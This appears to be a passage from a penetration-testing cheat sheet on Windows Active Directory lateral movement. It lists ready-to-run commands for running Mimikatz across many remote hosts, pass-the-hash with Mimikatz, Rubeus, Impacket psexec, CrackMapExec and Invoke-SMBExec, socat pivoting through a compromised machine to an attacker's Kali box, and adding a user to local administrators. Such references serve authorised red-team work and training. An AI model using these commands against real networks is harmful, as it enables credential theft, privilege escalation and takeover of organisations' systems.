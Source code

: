#### Execute locally loaded function on a list of remote machines
```
Invoke-Command -Scriptblock ${function:<function>} -Computername (Get-Content computers.txt)
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Computername (Get-Content computers.txt)
```

### Run as context of other user
#### Runas other user
```
runas /netonly /user:<DOMAIN>\<USER> cmd.exe
runas /netonly /user:<DOMAIN>\<USER> powershell.exe
```

#### Rubeus
```
.\rubeus.exe asktgt /user:<USER> /domain:<DOMAIN> /dc:<DC IP> /rc4:<HASH>
```

#### Mimikatz
```
mimikatz.exe sekurlsa::pth /domain:<DOMAIN> /user:<USER> /rc4:<HASH>
```

### Remote port forward socat Windows
- https://netcologne.dl.sourceforge.net/project/unix-utils/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip
- Download all dll's and executable on target
- First hop is compromised machine
```
socat.exe tcp-listen:<LISTENING PORT>,tcp-connect:<TARGET IP SECOND HOP>:<TARGET PORT>
```

#### Then let it listen on our kali machine 
- so we can connect with our windows tool for example
```
socat tcp-l:<LISTENING PORT>,fork tcp:<TARGET IP TO SEND IT TO (FIRST HOP)>:<TARGET PORT>
```

## Pass the hash
#### Impacket
- Use the empty lm hash ```00000000000000000000000000000000```
- https://github.com/ropnop/impacket_static_binaries/releases/tag/0.9.22.dev-binaries
```
.\psexec_windows.exe -hashes <LM HASH>:<NTLM HASH> <DOMAIN>/<USER>@<COMPUTERNAME>
```

#### Crackmapexec
- Required elevated privileges to execute commands
```
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH> -X <COMMAND>
```

#### Invoke-TheHash
- https://github.com/Kevin-Robertson/Invoke-TheHash
- Can use the command ```net localgroup administrators <DOMAIN>\<USERNAME> /add``` and do ```enter-pssession``` after to connect 
```
Invoke-SMBExec -Target <COMPUTERNAME> -Domain <DOMAIN> -Username <USERNAME> -Hash <NTLM HASH> -Command <COMMAND> -Verbose
```
